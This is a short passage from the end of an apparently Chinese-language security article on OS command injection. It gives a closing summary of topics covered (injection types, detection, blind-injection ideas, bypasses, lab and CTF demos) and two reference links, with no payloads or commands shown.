[](https://xzfile.aliyuncs.com/media/upload/picture/20240224144030-9a42be62-d2df-1.png)

### 文末小结

本篇文章对命令注入的类型、注入的检测方式、盲注的利用思路以及命令注入的绕过方式进行了介绍，最后通过靶场案例以及 CTF 示例对相关技巧的利用进行了演示，当然也有很多其他的技巧有待发现，攻防互促进步~

### 参考链接

[https://mp.weixin.qq.com/s/itToKY5OyfytgN1a3XKzKQ](https://mp.weixin.qq.com/s/itToKY5OyfytgN1a3XKzKQ)  
[https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
